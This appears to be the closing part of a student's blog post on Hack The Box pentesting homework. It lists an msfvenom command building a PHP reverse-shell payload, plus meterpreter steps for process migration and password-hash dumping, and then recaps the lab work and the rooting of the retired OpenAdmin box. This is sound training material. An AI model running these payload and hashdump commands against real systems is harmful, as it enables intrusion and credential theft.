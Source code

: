 PHP shell payload with msfvenom:
	msfvenom -p METERPRETER_DIR/reverse_tcp LHOST=<local> LPORT=<port> -f raw > shell.php
inspect METERPRETER_DIR for different available payloads

Meterpreter process migration (via metasploit):
	meterpreter > ps
	meterpreter > migrate PID
	meterpreter > run exploit/os/example/hashdump
d) Recapitulation
Going through all the homework… added some missing references and spelling errors. I seem to be a heavy wikipedia user, at least when learning something new.

The work I did on HTB machine was really rewarding in the end. I covered quite a lot of ground. Some clueless ponderings are a bit embarrassing to read, but finding out how things really work is the only way to learn properly. Next HTB’s ones will probably be easier…

e) Bonus: Flags from HTB
I got finally in to OpenAdmin, and rooting it was easy after the user flag. The box had retired, I noticed it when submitting the user flag, so didn’t get HTB points for this. But lots of learned new things and tweaks 🙂

Screenshot_2020-05-13_08-51-00

The process altogether is reported in these 4 blog posts. I removed the password protection due to retired box.

https://tqre.wordpress.com/2020/04/12/h2-password-protected-part/
https://tqre.wordpress.com/2020/04/19/pentesting-h3-htb-openadmin/
https://tqre.wordpress.com/2020/04/27/htb-openadmin-web-shell/
https://tqre.wordpress.com/2020/05/12/htb-openadmin-has-retired-user-flag-found-at-least/

